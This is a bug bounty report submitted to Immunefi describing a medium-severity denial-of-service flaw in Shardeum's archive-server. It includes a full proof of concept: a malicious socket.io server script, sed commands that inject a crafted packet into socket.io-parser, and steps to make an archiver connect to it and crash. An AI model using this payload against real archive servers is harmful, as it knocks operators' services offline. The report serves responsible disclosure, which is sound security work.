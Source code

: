 
# archive-server can be killed by connected shardus-instance

Submitted on Thu Aug 08 2024 15:15:27 GMT-0400 (Atlantic Standard Time) by @riproprip for [Boost | Shardeum: Ancillaries](https://immunefi.com/bounty/shardeum-ancillaries-boost/)

Report ID: #34298

Report type: Websites and Applications

Report severity: Medium

Target: https://github.com/shardeum/archive-server/tree/dev

Impacts:
- Taking down the application/website

## Description
## Brief/Intro
On boot the `archive-server` connects to a randomized `shardus-instance`.
This instance has the power to kill the process that runs the archive server.


## Vulnerability Details
Archive-server is using an outdated socket.io-client. The old implementation has issues with specially crafted packets. 

Since Archive-server does not do any special error handling the error in the socket.io-client can bubble up "uncatched" and kill the process.

Since the archive-server tries to randomly connect to a shardus-instance, it might not be a terrifying issue. 
Otoh I saw references in the documentation that archive servers should be rewarded for their service in the future, so there would be incentive to try to kill archive servers that you don't run ...

        
## Proof of concept
#  Prepare
```
apt-get update
apt-get -y install git-core curl build-essential python3 vim
curl -o- https://raw.githubusercontent.com/nvm-sh/nvm/v0.39.7/install.sh | bash
export NVM_DIR="$HOME/.nvm"
[ -s "$NVM_DIR/nvm.sh" ] && \. "$NVM_DIR/nvm.sh"  # This loads nvm
[ -s "$NVM_DIR/bash_completion" ] && \. "$NVM_DIR/bash_completion"  # This loads nvm bash_completion
curl --proto '=https' --tlsv1.2 -sSf https://sh.rustup.rs | sh
source "$HOME/.cargo/env"
rustup install 1.74.1; rustup default 1.74.1
nvm install 18.16.1; nvm use 18.16.1
npm i -g node-gyp
```

# create and start evil shardus-instance
In one terminal
## Create folder
```
mkdir /tmp/net_attack
cd /tmp/net_attack
```

## save as package.json
```
{
  "dependencies": {
    "engine.io-client": "~3.5.0",
    "express": "^4.19.2",
    "socket.io": "^2.5.1",
    "socket.io-client": "^2.5.0"
  }
}
```

## save as evil-shardus.js
```
const PORT = 3030;
const app = require('express')();
const http = require('http').createServer(app);
const io = require('socket.io')(http, {cors: {origin: "*",methods: ["GET", "POST"]}});

io.on('connection', (socket) => {
        console.log('A user connected', new Date());

        socket.on('ARCHIVER_PUBLIC_KEY', (key) => {
                console.log('ARCHIVER WITH KEY CONNECTED', key);
        });

        setTimeout(() => {
                console.log('killing archiver', new Date());
                socket.emit('doesnt', 'matter'); // this will be overriden by our encoder implementation
        }, 60_000);
});

http.listen(PORT, () => {
  console.log(`Server running on port ${PORT}`);
});
```

## install packages and replace encoder with evil encoder
```
npm install
sed -i 's/var encoding = encodeAsString(obj);/var encoding = encodeAsString(obj); if (obj.type == 2) encoding = '"'"'2[{"toString":"rip"}]'"'"';/' ./node_modules/socket.io-client/node_modules/socket.io-parser/index.js
sed -i 's/var encoding = encodeAsString(obj);/var encoding = encodeAsString(obj); if (obj.type == 2) encoding = '"'"'2[{"toString":"rip"}]'"'"';/' ./node_modules/socket.io-parser/index.js
```

### run evil shardus instance
```
node evil-shardus.js
```


# run archiver

I could not find another script that made this easy. 
So just reusing the stuff I had for the other bugs ...

We will reuse the shardeum repo and the `shardus start 10` to run an archiver. But before we run the archiver, we make sure it connects to the evil -shardus.js.

In another terminal
## general setup
```
cd tmp
git clone https://github.com/shardeum/shardeum.git; cd shardeum; git switch dev
npm ci
npm install -g shardus
npm update @shardus/archiver
git apply debug-10-nodes.patch
npm run prepare
```

## make sure that archiver connects to our evil implementation of a shardus-instance
```
sed -i 's/const socketClient = ioclient.connect(`http:\/\/${node\.ip}:${node\.port}`);/const socketClient = ioclient.connect(`http:\/\/${node\.ip}:3030`);/' ./node_modules/@shardus/archiver/build/Data/Data.js
```

## run shardus
We run shardus, and observe our archive server disappear when the evil-shardus terminal prints "killing archiver". (60 second wait in current evil-shardus.js)
```
shardus start 10; 
PID=$(ps -ef | grep "archiver/build/server.js" | tr -s " " | cut -f2 -d" " | head -n1); 
watch -n2 "ps -ef | grep "$PID" | grep -v watch | grep node"
```